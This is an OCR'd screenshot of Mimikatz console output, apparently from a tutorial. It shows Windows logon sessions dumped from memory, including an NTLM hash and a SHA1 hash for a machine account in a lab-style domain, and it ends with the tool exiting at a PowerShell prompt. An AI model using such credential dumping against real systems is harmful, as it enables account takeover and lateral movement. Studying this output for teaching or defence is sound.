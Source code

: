 ```
 2d 42 f5 19 a5 17 32 56 88 c0 e2 08 50 62 0b c9 f2 e9 47 13 cb 72 20 d3 b2 b7 ba f3 54 c4 27 86 2c 71 b3 33 dc 9d 77 ff
 27 16 43 5c 8e fb fa ab 89 e0 f8 ae f1 b1 be 58 c0 e5 7b 76 a9 d4 80 37 18 6d 47 0d 7e 2b aa 0c cd b5 cb be 77 21 77 d1
 52 d8 ba 5a 0f 5d 0e 74 7c 97 05 00 27 a0 51 cb 3b 95 d5 a7 55 37 49 0d 84 7a f6 d8 96 30 d3 06 a8 cb a3 91 8e 98 ad b7
 8a 86 a9 c8 b8 ea c3
        ssp :   KO
        credman :

Authentication Id : 0 ; 44395 (00000000:0000ad6b)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2016/11/5 12:07:52
SID               :
        msv :
         [00000003] Primary
         * Username : SERVER$
         * Domain   : THEGEEKSTUFF
         * NTLM     : 708faf9c9842a10735ecab33cc64ed37
         * SHA1     : 170fc50c1613bc049225066bba08514ac35f1bce
        tspkg :
        wdigest :
        kerberos :
        ssp :   KO
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SERVER$
Domain            : THEGEEKSTUFF
Logon Server      : (null)
Logon Time        : 2016/11/5 12:07:52
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : SERVER$
         * Domain   : THEGEEKSTUFF
         * Password : (null)
        kerberos :
         * Username : server$
         * Domain   : THEGEEKSTUFF.COM
         * Password : (null)
        ssp :   KO
        credman :

mimikatz # exit
Bye!
PS C:\Users\Administrator\Desktop\MimikatzX64>
```
